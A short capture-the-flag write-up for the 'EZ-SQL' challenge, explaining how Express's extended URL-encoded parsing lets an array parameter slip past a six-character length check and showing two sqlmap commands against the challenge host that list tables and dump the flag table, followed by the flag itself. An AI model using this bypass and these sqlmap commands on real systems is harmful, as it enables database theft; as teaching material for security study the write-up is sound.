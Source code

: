 # EZ-SQL

**The challenge**

In the challenge if you give a number which have numbers with characters more than 2 and less than 6 characters It will give back a joke.

**The Exploit**

The source file contained only a js file which uses sql. Here it was vulnerable to sqll injection but the parameter can only be be of length 6 characters.

The trick was that here it had the code
```js
    app.use(express.urlencoded({ extended: true }));
```
This basically meant that an array value can be passed through. So the length of the value of an array will be like
```
    a = [adi , hi]
```
Here the length will be 2

So we can pass a whole sql injection inside an array.
Then it can be automated with sqlmap because the table's name was like *flag_${uuid.v4().replace(/-/g, '_')}*. Then got the flag.

sqlmap --url "https://ez-sql-c74146f3232854b3.tjc.tf/search?name[0]=hai&name[1]=buddy" -p "name[0]" --dbms=sqlite --tables --technique=U

sqlmap --url "https://ez-sql-c74146f3232854b3.tjc.tf/search?name[0]=hai&name[1]=buddy" -p "name[0]" --dbms=sqlite -T flag_187998e1_b2a0_43c7_a135_53b1b9e03e5d --dump --technique=U

**The Flag**
Flag = tjctf{ezpz_l3mon_squ33zy_603f8e08}